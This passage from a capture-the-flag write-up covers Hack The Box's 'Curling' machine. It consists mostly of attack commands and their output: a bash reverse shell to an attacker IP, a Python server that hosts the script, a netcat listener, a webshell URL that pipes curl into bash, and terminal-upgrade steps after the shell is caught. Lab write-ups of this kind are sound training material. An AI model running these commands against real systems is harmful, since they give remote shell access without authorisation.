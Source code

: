 	bash -c 'bash -i >& /dev/tcp/10.10.17.201/9001 0>&1'
	
### Create HTTP server to serve reverse shell script

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

### Setup listener to receive reverse shell

	nc -lvnp 9001

### Execute reverse shell script

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

		nc -lvnp 9001
	
```text
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

## Lateral Movement

### Upgrade terminal for improved functionality (arrow keys, etc.)

`www-data@curling:/var/www/html/templates/protostar$ ^[[D^[[A^[[C^[[D^[[A^[[C`

	which python
	which python3
	
#### Spawn a bash terminal

	python3 -c 'import pty;pty.spawn("/bin/bash")'

#### Background it
	<Ctrl+Z>

#### Change terminal line settings

`stty raw -echo;fg`
	
```bash
raw		// same as -ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr -icrnl -ixon -ixoff -icanon -opost -isig -iuclc -ixany -imaxbel -xcase min 1 time 0
-echo	// echo input characters
;fg		// plays nice with zsh
```

#### Enable clear screen functionality


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency